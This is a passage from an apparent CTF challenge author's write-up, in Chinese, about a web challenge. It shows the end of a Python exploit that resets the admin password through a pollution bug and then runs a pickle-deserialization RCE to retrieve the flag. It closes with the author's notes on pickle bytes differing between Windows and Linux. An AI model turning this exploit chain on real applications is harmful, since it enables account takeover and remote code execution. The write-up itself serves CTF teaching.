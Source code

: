 ``` python
    req2 = s.get(url=baseURL + viewURL)
    # time.sleep(1)
    if req2.status_code == 200:
        print("[+]RCE Success!")
    else:
        print("[-]RCE Fail..")
        exit(-1)

    s.close()
	
		
    os.system(f"wget {baseURL}/static/img.png -q")
    print('[+]the flag is:')
    os.system("cat ./img.png")
    



if __name__ == '__main__':
    parse = argparse.ArgumentParser()
    parse.add_argument("-AP", type=str, default="123456", help="you can reset the admin password by -AdminP option")
    parse.add_argument("-U", type=str, default="tester", help="the new register user's username")
    parse.add_argument("-P", type=str, default="tester", help="the new register user's password")

    args = parse.parse_args()
    
    adminPassword = args.AP
    registerUsername = args.U
    registerPassword = args.P

    AdminPasswordPollute(admin_password = adminPassword, new_username=registerUsername, new_password=registerPassword)
    LoginAndPickleAttack(admin_password = adminPassword, new_username=registerUsername, new_password=registerPassword)

```



### 我的出题踩坑点

- 当部署在Windows上时直接访问api接口可以打通，但是部署到docker中的“Linux”环境下给我报了500，好怪~

![image-20240409223338542](https://icfh-imgs-1313391192.cos.ap-nanjing.myqcloud.com/images/202404111747109.png)

![image-20240409223410734](https://icfh-imgs-1313391192.cos.ap-nanjing.myqcloud.com/images/202404111747317.png)

​	后面检查了下是由于python pickle序列化时会生成的字节会受到操作系统不同的影响（因为当时exp是在windows下写的）

​	所以后面在我的kali里装了个WSRX，然后exp打一遍，通了

